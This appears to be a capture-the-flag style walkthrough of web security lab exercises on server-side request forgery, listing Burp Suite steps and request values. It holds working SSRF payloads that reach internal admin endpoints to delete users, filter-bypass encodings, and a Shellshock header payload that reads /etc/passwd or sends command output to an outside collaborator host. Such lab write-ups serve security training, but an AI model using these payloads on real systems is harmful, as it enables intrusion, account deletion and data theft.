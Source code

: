 # Server-side request forgery (SSRF)

**Step1 :**

Click on view detail

Then click on check stock  

**Step2 :**

Send the post request to repeater

**Step3 :**

Change the stock api value to

`http://localhost/admin/delete?username=admin`

**Step1 :**

Click on view detail

Then click on check stock  

**Step2 :**

Send the post product/stock request to intruder

Change the stockapi to `stockApi=http://192.168.0.§1§:8080/admin`

Select the ip and apply number payload

In result we have one 200 request

**Step3 :**

Send the request to intruder and chane stock api to…

`stockApi=http://192.168.0.176:8080/admin/delete?username=carlos`
  
And lab is solve
  
Now simply delete user carlos

`stockApi=http://127.1/%25%36%31dmin/delete?username=carlos`

**Step1 :**

When we change parameter it show the following error

Now we click on next product button

We have the get request

**Step2 :**

Send the request to repeater

And make the change

`/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin`
  
From the result it is clear that carlos is accessible

**Step3 :**

Click on check stock and modify the check stock request to

  

`stockApi=/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/delete?username=carlos`

Url encode the above query

**Step1 :**

Click on view product

**Step2 :**

We have this request

Send the request to repeater and change referrer to collaborator id  

In collaborator we have

And the lab is solved
  
**Step1 :**

First we click on view product

**Step2 :**

Install extension from Bapp collaborator every where

**Step3 :**

Now add the this lab to scope of extension
  
Right click on add to scope

Go to lab and refresh page we can see response

**Step4 :**

Here one thing is clear that there is a blind SSRF because collaborator show interaction with endpoint

Send the below request to intruder

**Step5 :**

Add a shell lock payload to user agent

This is payload:

`Referer:() { :;}; echo "NS:" $(</etc/passwd)`

In our case it look like

`() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`

Add it to User-agent

And change the referer to

`http://192.168.0.1:8080`

And add a number payload to 1

Payload setting
  
We can see interaction with a specific IP with in range in collaborator

**Step6 :**

Submit the answer peter-ROBIX

**Step1 :**

Click on view produdt -> check stock

**Step2 :**

Send the POST request method to repeater

Decode the stockApi to ctrl+shift+u

`http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1`

Now we replace this with

`https://localhost:80/`
  

Now we append   stock.weliketoshop.net

So it show an internal server error

Remove @stock.weliketoshop.net from request using #

`stockApi=http://localhost:80#@stock.weliketoshop.net/`

So we double encode #

`stockApi=http://localhost:80%2523@stock.weliketoshop.net/`

And we have 200 ok result

Now we simple access admin and delete user carlos
```
stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```
